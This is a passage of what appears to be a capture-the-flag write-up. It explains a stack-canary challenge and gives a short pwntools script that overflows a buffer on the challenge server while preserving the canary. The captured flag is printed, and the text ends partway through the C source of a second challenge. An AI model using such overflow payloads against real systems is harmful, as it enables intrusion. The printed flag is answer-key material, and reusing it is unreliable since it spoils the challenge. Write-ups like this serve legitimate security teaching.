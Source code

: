 ![alt text](./assets/images/pwn-canary-keeper/check_flag.png)

This is a basic `Stack Canary` chall. 

All we have to do is change the value of `v6 (initially FLAG)` while keeping the `v5 as canary`.

Are `input` is stored in `v4(73 characters)`, `canary` in `v5(7 characters)`, and `FLAG` is `compared with v6(array of 8 64-bit values(or 8 characters))`.

So to `bypass the canary_check`, we can input `73 char(for v4) + canary\0(for v5)` followed by flag. 

`\0` is added to canary as `v5 is 7 char`, so `last char is null byte`.

```py
from pwn import *

r = remote('challs.bcactf.com', 32101)

payload = cyclic(73) + b"canary\0"

r.sendline(payload)
r.interactive()
```

## Flag
`bcactf{s1mple_CANaRY_9b36bd9f3fd2f}`


# pwn/Pwnage
## Challenge Description
It's either a bug, a hack, an exploit, or it's pwnage.

Let this challenge stand as one of the first of many stairs to mastery over that which can only be described as pwn.

## Hint
Connect using `nc` aka Netcat

## Resoruces
[provided.c](../assets/scripts/bpwnage/provided.c)

```c

int main() {
    // Hint: how do these values get stored?
    void* first_var;
    char* guess;
    char flag[100];
    load_flag(flag, 100);

    puts("Welcome to the most tasmastic game of all time!");
    wait_for(3);
    puts("Basically it's just too simple, I've put the");
    puts("flag into the memory and your job is ... to");
    puts("guess where it is!!");
    wait_for(2);
    puts("Have fun!");
    wait_for(1);
```